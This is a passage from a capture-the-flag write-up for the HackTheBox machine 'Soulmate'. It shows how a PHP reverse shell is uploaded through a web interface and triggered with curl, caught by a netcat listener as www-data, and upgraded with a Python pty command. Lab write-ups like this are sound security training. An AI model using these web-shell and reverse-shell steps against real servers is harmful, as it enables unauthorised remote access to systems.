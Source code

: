 Edited `shell.php` to configure the payload with my `VPN IP` and `listening port`.
- another terminal, started a netcat listener
```bash
nc -lnvp 4444
```

Then, uploaded the shell via the web interface by clicking **Add File** and selecting `shell.php`.
![](<./attachments/Soulmate-10.png>)

Once uploaded, the shell was accessible:
```bash
curl http://soulmate.htb/shell.php
```
## Getting the Reverse Shell
After triggering the uploaded shell, received a connection back to my netcat listener:
- Gained access as `www-data`
![](<./attachments/Soulmate-11.png>)
To get a more stable shell, upgraded to a fully interactive one by spawning a Python pty shell:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
# Lateral Movement to ben
